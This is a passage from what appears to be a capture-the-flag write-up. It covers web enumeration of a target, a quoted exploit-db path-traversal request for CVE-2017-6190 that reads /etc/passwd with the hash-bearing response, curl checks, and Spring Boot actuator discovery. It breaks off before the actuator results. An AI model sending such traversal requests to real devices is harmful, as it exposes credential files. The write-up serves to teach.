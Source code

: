 Interestingly, we can check online to see if searching the previously known vulnerability that was not fixed, CVE-2017-6190, yields anything more.

We find in exploit-db exploit #41840, we see:

```
HTTP Request:
GET /uir/../../../../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: 192.168.2.1
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close

HTTP Response:
HTTP/1.0 200 OK
Content-Type: application/x-none
Cache-Control: max-age=60
Connection: close

root:$1$$taUxCLWfe3rCh2ylnFWJ41:0:0:root:/root:/bin/ash
nobody:$1$$qRPK7m23GJusamGpoGLby/:99:99:nobody:/var/usb:/sbin/nologin
ftp:$1$$qRPK7m23GJusamGpoGLby/:14:50:FTP USER:/var/usb:/sbin/nologin


```

This feels like the right path, but we must think harder on this. We could use the `curl` command again and follow the redirect with `-L` tag.

Doing this takes us to the homepage, not helpful.

Using `curl` we find out Bootstrap's version Bootstrap v5.2.3. Searching for vulnerabilities, I find there are no direct vulnerabilities.

Hint obtained: Need more directory enumeration...

### Web Directory Enumeration Continued

There is a Whitelabel Error page, meaning no explicit mapping for /error. Researching this further, I found out that the Whitelabel error page is a result of the website's structure, by default, Spring Boot will scan the components below the main application class. I also found that as of Spring Boot 2.0.0.RELEASE the default prefix for all endpoints is `/actuator`.

So, let's check that URL:
